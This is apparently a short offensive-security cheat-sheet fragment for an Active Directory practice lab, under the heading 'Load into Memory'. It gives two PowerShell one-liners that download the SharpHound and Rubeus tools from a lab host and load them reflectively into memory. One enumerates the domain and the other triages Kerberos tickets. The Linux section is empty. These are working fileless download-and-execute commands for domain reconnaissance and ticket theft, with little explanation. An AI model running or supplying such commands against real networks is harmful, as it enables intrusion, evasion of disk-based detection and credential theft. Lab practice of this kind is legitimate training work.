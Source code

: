 

## Load into Memory 

#### Linux



#### PowerShell

```bash
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1/SharpHound.exe') 
$assem = [System.Reflection.Assembly]::Load($data) [Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())`
```

```bash
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/Rubeus.exe') 
$assem = [System.Reflection.Assembly]::Load($data); [Rubeus.Program]::MainString("triage");
```